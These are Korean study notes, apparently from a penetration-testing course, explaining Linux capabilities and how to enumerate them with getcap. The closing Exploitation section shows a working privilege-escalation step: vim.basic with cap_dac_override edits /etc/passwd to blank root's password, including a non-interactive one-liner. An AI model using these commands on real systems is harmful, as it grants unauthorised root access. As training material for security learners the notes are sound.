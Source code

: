 # Capabilities

Linux Capabilities 는 Linux 운영 체제의 보안 기능으로, 프로세스에 특정 권한을 부여하여 그렇지 않으면 제한될 수 있는 특정 작업을 수행할 수 있도록 한다. Ubuntu에서는 `setcap` 명령으로 특정 파일에 대한 기능을 설정할 수 있다.

**Capabilities 설정 예시**

```powershell
hunji@htb[/htb]$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

→ 바이너리가 네트워크 포트에 바인딩 가능

특히나 관리자 권한으로 작업을 수행할 수 있도록 하는 `cap_sys_admin` 과 같은 기능은 제대로 사용하지 않으면 위험하다.

|**능력**|**설명**|
|---|---|
|`cap_sys_admin`|시스템 파일을 수정하거나 시스템 설정을 변경하는 등 관리자 권한으로 작업을 수행할 수 있습니다.|
|`cap_sys_chroot`|현재 프로세스의 루트 디렉토리를 변경해서 다른 방법으로는 접근할 수 없는 파일과 디렉토리에 접근할 수 있도록 해줍니다.|
|`cap_sys_ptrace`|다른 프로세스에 연결하여 디버깅을 수행할 수 있으므로, 잠재적으로 중요한 정보에 접근하거나 다른 프로세스의 동작을 수정할 수 있습니다.|
|`cap_sys_nice`|프로세스의 우선순위를 높이거나 낮출 수 있으며, 이를 통해 원래는 제한되었을 리소스에 접근할 수 있게 됩니다.|
|`cap_sys_time`|시스템 시계를 수정하여 타임스탬프를 조작하거나 다른 프로세스가 예상치 못한 방식으로 작동하도록 할 수 있습니다.|
|`cap_sys_resource`|시스템 리소스 제한(예: 열려 있는 파일 기술자의 최대 수 또는 할당할 수 있는 최대 메모리 양)을 수정할 수 있습니다.|
|`cap_sys_module`|커널 모듈을 로드하고 언로드할 수 있으므로 운영 체제의 동작을 수정하거나 중요한 정보에 액세스할 수 있는 가능성이 있습니다.|
|`cap_net_bind_service`|네트워크 포트에 바인딩하여 민감한 정보에 접근하거나 승인되지 않은 작업을 수행할 가능성이 있습니다.|

|**역량 가치**|**설명**|
|---|---|
|`=`|이 값은 실행 파일에 대해 지정된 기능을 설정하지만, 어떠한 권한도 부여하지 않습니다. 실행 파일에 대해 이전에 설정된 기능을 지우고 싶을 때 유용할 수 있습니다.|
|`+ep`|이 값은 지정된 기능에 대한 유효하고 허용되는 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행할 수 있지만 기능이 허용하지 않는 작업은 수행할 수 없습니다.|
|`+ei`|이 값은 지정된 기능에 대한 충분하고 상속 가능한 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행하고 실행 파일에 의해 생성된 자식 프로세스는 기능을 상속하고 동일한 작업을 수행할 수 있습니다.|
|`+p`|이 값은 지정된 기능에 대해 허용된 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행할 수 있지만 기능이 허용하지 않는 작업은 수행할 수 없습니다. 실행 파일에 기능을 부여하지만 기능을 상속하거나 자식 프로세스가 상속하는 것을 방지하려는 경우 유용할 수 있습니다.|

다음과 같은 Linux Capabilities 는 root로 권한 상승을 할 때 사용할 수 있다.

|**능력**|**설명**|
|---|---|
|`cap_setuid`|프로세스가 유효 사용자 ID를 설정할 수 있게 하며, 이를 통해 `root` 사용자를 포함한 다른 사용자의 권한을 얻을 수 있습니다 .|
|`cap_setgid`|다른 그룹(`root` 그룹 포함)의 권한을 얻는 데 사용할 수 있는 유효 그룹 ID를 설정할 수 있습니다 .|
|`cap_sys_admin`|`root`이 기능은 시스템 설정 수정, 파일 시스템 마운트 및 마운트 해제 등 사용자 에게 예약된 많은 작업을 수행하는 기능을 포함하여 광범위한 관리자 권한을 제공합니다 .|
|`cap_dac_override`|파일 읽기, 쓰기, 실행 권한 검사를 우회할 수 있습니다.|

### Enumerating Capabilities

```powershell
hunji@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \\;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

→ offsec에서는 `/usr/sbin/getcap -r / 2>/dev/null` 로 검색

### Exploitation

**Capability 확인**

```powershell
hunji@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

파일 읽기, 쓰기, 실행 권한 검사를 우회할 수 있으므로, /etc/passwd 파일을 아래와 같이 편집할 수 있다.

```powershell
hunji@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

비대화형 모드에서도 변경으로 root 의 패스워드를 없애버릴 수 있다 (x 를 없애버림).

```powershell
hunji@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\\nwq!' | /usr/bin/vim.basic -es /etc/passwd
hunji@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```